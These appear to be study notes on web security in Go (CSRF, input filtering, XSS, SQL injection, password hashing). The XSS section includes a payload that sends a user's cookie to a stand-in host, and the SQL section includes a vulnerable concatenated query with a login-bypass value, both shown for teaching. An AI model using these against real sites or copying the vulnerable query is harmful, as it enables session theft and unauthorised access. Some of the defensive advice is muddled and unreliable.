 # 9 Security-and-encryption

## 9.1 CSRF attacks

### What is CSRF?

CSRF:Cross-site request forgery (跨站請求偽造)

![](https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/images/9.1.csrf.png?raw=true)

Figure 9.1 CSRF attacks process.

You can't guarantee that the following does not occur:
- May forget to close.
- Can't guarantee cookies is expired.
- High traffic website which have bug will easily get attack by CSRF.

### How to prevent CSRF attacks

Most approaches stem:
1. Maintaining proper use of `GET`, `POST` and `cookies`
2. Including a pseudo-random number (like uni-token) with non-GET requests.


## 9.2 Filtering inputs

Filtering data is divided into three steps:
1. identify the data: filter data to figure out where it from.
2. filter data: know what kind of data we have received.
3. distinguish between filtered and tainted data.

### Identifying data

Easy to recognize `GET` && `POST` data by using such as `r.ParseForm`

### Filtering data
It's very important NOT to make any attempts at correcting the illegal data.

Use Third party package to filter is a easy way.

### Distinguishing between filtered and tainted data

Filtered data -> Global Map names `CleanMap`
- Each request must initialize `CleanMap` as an empty map.
- Prevent confilct of external `CleanMap`.


## 9.3 XSS attacks

XSS: Cross Site Scripting (跨站腳本攻擊) 

### What is XSS attack

- Store XSS attack
    - The attacker's script then  executes arbitrary code on the client's computer.
- Reflect XSS attack
    - Add \<html...\> code into requeset.

### XSS principles

Normal url: `http://127.0.0.1/?name=linonon`

Tainted url: `http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;`

Danger url: `http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`, this will send cookie to `www.xxx.com`


### How to prevent XSS

- Filter special characters
    - packge in Go: `text/template`: `HTMLEscapeString` && `JSEscapeString`
- Specify the content type in your HTTP headers
`w.Header().Set("Content-Type", "text/javascript")`

This allows client browsers to parse the response as javascript code (applying the neccessary filters) instead o rendering the content in an unspecified and potentially dangerous manner.


## 9.4 SQL injection

sql:
```go
sql := "SELECT * FROM user WHERE username='"+username+"' AND password='"+password+"'"`
```

injected sql
```go
// if username = "myuser' or 'foo' = 'foo' --"
sql-> SELECT * FROM user WHERE username='myuser' or 'foo' = 'foo' --'' AND password='xxx' 
```

### How to prevent SQL injection

1. Strictly limit permissions for database operation so users only have minimum set of permissions required to accomplish their work.
2. Check that input data has the expected data format, and strictly limit the type of variable that can be submitted by `regexp` or `strconv`.
3. Transcode or escape from pair of special characters by `text/template`'s `HTMLEscapeString`
4. Don't concatenating user input variable in embedded SQL statements.
5. Use such as `sqlmap`, `SQLninja` to detecting SQL injection vulnerabilities and repair them.
6. Avoid printing SQL error information on public webpages.

## 9.5 Password storage

### Bad solution

Use "one-way hashing".

"one-way hashing" algorithm include SHA-256, SHA-1, MD5.

hacker can use `rainbow table`

### Good solution

Add `salt`(like `token` or variable such as `username` to hashmap) after data string, then do hashmap.

### Pro solution

```go
dk := scrypt.Key([]byte("some password"), []byte(salt), 16384, 8, 1, 32)
```